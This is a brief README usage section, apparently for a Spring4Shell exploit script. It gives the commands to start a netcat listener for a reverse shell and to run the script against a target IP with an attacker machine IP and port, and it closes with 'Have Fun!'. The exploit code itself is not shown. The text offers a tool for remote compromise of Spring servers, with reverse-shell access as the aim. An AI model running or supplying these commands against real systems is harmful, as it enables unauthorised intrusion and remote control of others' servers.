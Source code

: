 # Usage

#### Start Netcat
```
nc -nvlp <port for reverse shell>
```

#### Run Script
```python
python3 initial(Spring4Shell).py -t <target ip> -i <attacker machine ip> -p <port for reverse shell>
```

# Have Fun!
